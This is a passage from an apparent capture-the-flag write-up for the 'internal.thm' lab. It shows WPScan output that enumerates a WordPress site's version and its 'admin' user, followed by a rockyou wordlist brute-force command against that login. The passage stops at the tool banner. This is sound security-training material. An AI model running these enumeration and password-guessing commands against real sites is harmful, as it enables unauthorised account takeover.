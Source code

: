  | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:01 <=================> (10 / 10) 100.00% Time: 00:00:01

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Wp Json Api (Aggressive Detection)
 |   - http://internal.thm/blog/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPVulnDB API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 50 daily requests by registering at https://wpvulndb.com/users/sign_up

[+] Finished: Sat Oct 17 18:37:11 2020
[+] Requests Done: 51
[+] Cached Requests: 7
[+] Data Sent: 11.81 KB
[+] Data Received: 472.077 KB
[+] Memory used: 155.973 MB
[+] Elapsed time: 00:00:11


we have user admin let's start attack the password
command used : wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt

kali@kali:~$ wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.1
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
